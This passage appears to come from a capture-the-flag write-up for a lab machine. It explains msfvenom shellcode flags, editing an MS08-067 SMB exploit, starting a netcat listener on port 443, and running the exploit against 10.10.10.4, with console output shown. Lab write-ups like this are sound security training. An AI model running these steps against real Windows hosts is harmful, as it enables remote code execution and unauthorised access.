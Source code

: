 Where:
- `-p` specifies the payload we want to use
- `LHOST` and `LPORT` are the IP address assigned to our machine
- `EXITFUNC` will be useful in some cases where after we exploited a box, we need a clean exit
- `-b` specifies the bad characters for the payload
- `-f` specifies the output, in this case it will be `C`
- `-a` specifies the system architecture
- `-v` specifies the variable that will store the payload

At this point we have to edit the exploit file including our own payload and set up a listener on port 443.
The exploit requires that we know the version of Windows and the Language Pack. Apparently the exploit takes advantage of knowing where some little bits of code will be in memory, and uses those bits on the path to shell. For different version of Windows, the addresses of those gadgets will be different.

From the initial scan result we know that the system is running a **Windows XP version**. We will start with target `6` first (Win XP SP3 English), and if that fails, we'll try others.

Let's run the exploit: (setting up a netcat listener on port 443)

```
python exploit.py 10.10.10.4 6 445
#######################################################################
#   MS08-067 Exploit
#   This is a modified verion of Debasis Mohanty's code (https://www.exploit-db.com/exploits/7132/).
#   The return addresses and the ROP parts are ported from metasploit module exploit/windows/smb/ms08_067_netapi
#
#   Mod in 2018 by Andy Acer
#   - Added support for selecting a target port at the command line.
#   - Changed library calls to allow for establishing a NetBIOS session for SMB transport
#   - Changed shellcode handling to allow for variable length shellcode.
#######################################################################


$   This version requires the Python Impacket library version to 0_9_17 or newer.
$
$   Here's how to upgrade if necessary:
$
$   git clone --branch impacket_0_9_17 --single-branch https://github.com/CoreSecurity/impacket/
$   cd impacket
$   pip install .


#######################################################################

Windows XP SP3 English (NX)

[-]Initiating connection
[-]connected to ncacn_np:10.10.10.4[\pipe\browser]
Exploit finish
```
